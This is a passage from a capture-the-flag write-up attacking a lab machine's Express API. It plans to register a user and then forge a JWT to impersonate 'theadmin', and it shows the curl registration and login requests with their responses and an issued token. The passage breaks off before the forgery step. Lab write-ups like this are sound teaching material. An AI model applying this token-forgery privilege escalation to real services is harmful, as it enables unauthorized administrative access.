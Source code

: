 ## After reviewing the source code let's make a attack plan:

### 1. Create a new user on the system as theadmin
### 2. Create a low level user
### 3. Update the JWT to be theadmin
### 4. Access to the restricted endpoints

## NOTE:- Use Documentaion for doing this 

## Let's Create a new user using curl .

```
curl -i -X POST -H 'Content-Type: application/json' -d '{"name":"villan", "email":"villan@dasith.works", "password":"whatispassword"}' http://10.10.11.120/api/user/register
```

### Result

```
HTTP/1.1 400 Bad Request 
Server: nginx/1.18.0 (Ubuntu) 
Date: Sun, 20 Mar 2022 09:17:07 GMT 
Content-Type: text/html; charset=utf-8 
Content-Length: 18 
Connection: keep-alive 
X-Powered-By: Express 
ETag: W/"12-bovfAO8maqeTuF6NiWgD46KUq3k"
```

## After Creating user now it's time to login and bypass the JWT validation.

## For login

```
curl -i -X POST -H 'Content-Type: application/json' -d '{"email":"villan@dasith.works", "password":"whatispassword"}' http://10.10.11.120/api/user/login
```

### Result

```
HTTP/1.1 200 OK 
Server: nginx/1.18.0 (Ubuntu) 
Date: Sun, 20 Mar 2022 09:27:26 GMT 
Content-Type: text/html; charset=utf-8 
Content-Length: 211 
Connection: keep-alive 
X-Powered-By: Express 
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjM2ZjM2ZWY0OTkwYjA0NWNjNTUxZjkiLCJuYW1lIjoidmlsbGFuIiwiZW1haWwiOiJ2aWxsYW5AZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ3NzY4NDQ2fQ.a_q9NsYn9aQqCcI4DqHDVwjBxBSGGQaeAvabgCDQSGk 
ETag: W/"d3-WTwOMTPhrXWzwQ2uvVzMIz0JiiQ" 
 
   eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjM2ZjM2ZWY0OTkwYjA0NWNjNTUxZjkiLCJuYW1lIjoidmlsbGFuIiwiZW1haWwiOiJ2aWxsYW5AZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ3NzY4NDQ2fQ.a_q9NsYn9aQqCcI4DqHDVwjBxBSGGQaeAvabgCDQSGk
```